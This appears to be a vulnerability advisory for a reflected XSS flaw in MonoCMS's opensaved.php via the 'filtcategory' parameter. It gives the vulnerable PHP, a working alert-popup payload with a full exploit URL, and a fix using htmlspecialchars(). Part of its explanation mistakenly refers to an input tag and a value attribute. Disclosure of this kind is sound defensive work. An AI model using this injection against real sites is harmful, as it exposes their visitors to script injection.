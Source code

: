 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/opensaved.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/opensaved.php

Injection parameter: `filtcategory`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `filtcategory` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
if (isset($_GET['filtcategory']))
    echo '<option value="#">'. $_GET['filtcategory'].'</option>'.PHP_EOL.'<option value="opensaved.php'.$clink.'">All</option>';
```

<br />

## Injection Payload Tested:

We set `filtcategory` to:
```
</option><script>alert('XSS');</script><option>
```

<br />

## URL-encoded, this becomes:
```
%3C%2Foption%3E%3Cscript%3Ealert('XSS');%3C%2Fscript%3E%3Coption%3E
```

<br />

## Resulting HTML After Injection:
```
<option value="#"></option><script>alert('XSS');</script><option></option>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the <script> tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `</option><script>alert('XSS');</script><option>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/opensaved.php` looks like:

<br />

![opensaved.php](https://i.postimg.cc/XNBmMxsN/1.png)

<br />

Then we can add our payload `</option><script>alert('XSS');</script><option>` :
```
http://localhost:8080/monofiles/opensaved.php?filtcategory=</option><script>alert('XSS');</script><option>
```

<br />

![payload](https://i.postimg.cc/7Yvcq7R3/2.png)

<br />

After submitting the url with the vulnerable parameter `filtcategory` and the XSS payload `</option><script>alert('XSS');</script><option>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/KvnWjjXd/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
if (isset($_GET['filtcategory']))
    echo '<option value="#">' . htmlspecialchars($_GET['filtcategory'], ENT_QUOTES, 'UTF-8') . '</option>' . PHP_EOL . '<option value="opensaved.php' . $clink . '">All</option>';
```

<br />

> One Click Can Change Everything: Be Secure.
